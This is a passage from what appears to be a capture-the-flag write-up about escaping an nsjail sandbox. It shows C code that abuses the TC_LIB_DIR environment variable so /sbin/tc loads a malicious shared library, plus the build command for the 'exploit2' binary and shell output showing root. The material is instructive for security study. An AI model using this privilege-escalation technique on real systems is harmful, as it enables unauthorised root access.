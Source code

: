 ```c

        // fill with slashes
        memset(tc_lib_dir_val, '/', sizeof(tc_lib_dir_val));
        tc_lib_dir_val[sizeof(tc_lib_dir_val) - 1] = '\0';

        size_t path_len = strlen(path);
        size_t buf_len  = sizeof(tc_lib_dir_val) - 1; // leave room for '\0'

        size_t start = buf_len - path_len;
        memcpy(tc_lib_dir_val + start, path, path_len);

        puts(tc_lib_dir_val);

        if (setenv("TC_LIB_DIR", tc_lib_dir_val, 1) != 0) {
            perror("setenv");
            return 1;
        }

        char *tc_argv[] = {"tc", "exec", "x", NULL};
        execve("/sbin/tc", tc_argv, environ);
        perror("execve");
        exit(1);
    } else { // parent
        wait(NULL);
    }

    return 0;
}
```

the file include "shared.h" will contains the compiled shared library as a C include file.

Here is the command to compile the final `exploit2`:

```shell
gcc -shared -s -nostdlib -fPIC -o x.so exp.c && ls -al x.so && xxd -i x.so > shared.h && musl-gcc -Os -s -static exploit2.c -o exploit2 && ls -al exploit2
```

it compiles the shared library (exp.c), convert it to C include file, then compile with as a static binary the `exploit2` final privilege escalation exploit, ready to be uploaded by script.

Good now we are root !!! 🤪

```sh
root ツ TCSystems:/proc/1# id
id
uid=0(root) gid=0(root)
```

so it's finished?

no it's not, we are root, but we are still in the nsjail, and the flag is not in our chrooted filesystem,
